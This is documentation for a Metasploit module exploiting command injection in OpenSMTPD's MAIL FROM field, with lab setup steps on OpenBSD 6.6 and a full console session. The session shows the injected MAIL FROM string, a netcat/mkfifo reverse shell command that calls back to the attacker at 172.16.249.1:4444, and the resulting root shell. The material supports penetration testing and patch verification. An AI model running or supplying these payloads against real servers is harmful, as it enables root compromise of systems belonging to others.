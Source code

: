## Vulnerable Application

### Description

This module exploits a command injection in the `MAIL FROM` field during SMTP
interaction with OpenSMTPD to execute a command as the root user.

### Setup

1. Download
   [OpenBSD 6.6](https://cdn.openbsd.org/pub/OpenBSD/6.6/amd64/install66.iso)
2. Install the system, noting the domain name (defaults to `foo.localdomain` in
   VMware)
3. Configure the following settings in `/etc/mail/smtpd.conf`:

- `listen on all`
- `match from any for domain "foo.localdomain" action "local_mail"`

4. Execute `/etc/rc.d/smtpd restart` to restart OpenSMTPD
5. Execute `ifconfig` and look for an appropriate target IP

### Targets

```
Id  Name
--  ----
0   OpenSMTPD < 6.6.1
```

## Verification Steps

Follow [Setup](#setup) and [Scenarios](#scenarios).

## Options

**RCPT_TO**

Set this to a valid mail recipient. The default is `root`.

## Scenarios

### OpenSMTPD 6.6.0 on OpenBSD 6.6

```
msf5 > use exploit/unix/smtp/opensmtpd_mail_from_rce
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > show missing

Module options (exploit/unix/smtp/opensmtpd_mail_from_rce):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS                   yes       The target host(s), range CIDR identifier, or hosts file with syntax 'file:<path>'


Payload options (cmd/unix/reverse_netcat):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST                   yes       The listen address (an interface may be specified)

msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set rhosts 172.16.249.137
rhosts => 172.16.249.137
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > set lhost 172.16.249.1
lhost => 172.16.249.1
msf5 exploit(unix/smtp/opensmtpd_mail_from_rce) > run

[+] mkfifo /tmp/twkfr; nc 172.16.249.1 4444 0</tmp/twkfr | /bin/sh >/tmp/twkfr 2>&1; rm /tmp/twkfr
[*] Started reverse TCP handler on 172.16.249.1:4444
[*] 172.16.249.137:25 - Executing automatic check (disable AutoCheck to override)
[!] 172.16.249.137:25 - The service is running, but could not be validated.
[*] 172.16.249.137:25 - Connecting to OpenSMTPD
[*] 172.16.249.137:25 - Saying hello and sending exploit
[*] 172.16.249.137:25 - Expecting: /220.*OpenSMTPD/
[+] 172.16.249.137:25 - Received: 220 foo.localdomain ESMTP OpenSMTPD
[*] 172.16.249.137:25 - Sending: HELO JijrF2eskbXFfdlaV
[*] 172.16.249.137:25 - Expecting: /250.*pleased to meet you/
[+] 172.16.249.137:25 - Received:
250 foo.localdomain Hello JijrF2eskbXFfdlaV [172.16.249.1], pleased to meet you
[*] 172.16.249.137:25 - Sending: MAIL FROM:<;for W in a n 0 9 g D 7 N 7 B K R i u V;do read;done;sh;exit 0;>
[*] 172.16.249.137:25 - Expecting: /250.*Ok/
[+] 172.16.249.137:25 - Received:
250 2.0.0 Ok
[*] 172.16.249.137:25 - Sending: RCPT TO:<root>
[*] 172.16.249.137:25 - Expecting: /250.*Recipient ok/
[+] 172.16.249.137:25 - Received:
250 2.1.5 Destination address valid: Recipient ok
[*] 172.16.249.137:25 - Sending: DATA
[*] 172.16.249.137:25 - Expecting: /354 Enter mail.*itself/
[+] 172.16.249.137:25 - Received:
354 Enter mail, end with "." on a line by itself
[*] 172.16.249.137:25 - Sending:
#
#
#
#
#
#
#
#
#
#
#
#
#
#
#
mkfifo /tmp/rsnzh; nc 172.16.249.1 4444 0</tmp/rsnzh | /bin/sh >/tmp/rsnzh 2>&1; rm /tmp/rsnzh
[*] 172.16.249.137:25 - Sending: .
[*] 172.16.249.137:25 - Expecting: /250.*Message accepted for delivery/
[+] 172.16.249.137:25 - Received:
250 2.0.0 5bd4f87d Message accepted for delivery
[*] 172.16.249.137:25 - Sending: QUIT
[*] 172.16.249.137:25 - Expecting: /221.*Bye/
[+] 172.16.249.137:25 - Received:
221 2.0.0 Bye
[*] Command shell session 1 opened (172.16.249.1:4444 -> 172.16.249.137:28550) at 2020-02-28 10:28:14 -0600

id
uid=0(root) gid=0(wheel) groups=0(wheel)
uname -a
OpenBSD foo.localdomain 6.6 GENERIC#353 amd64
```

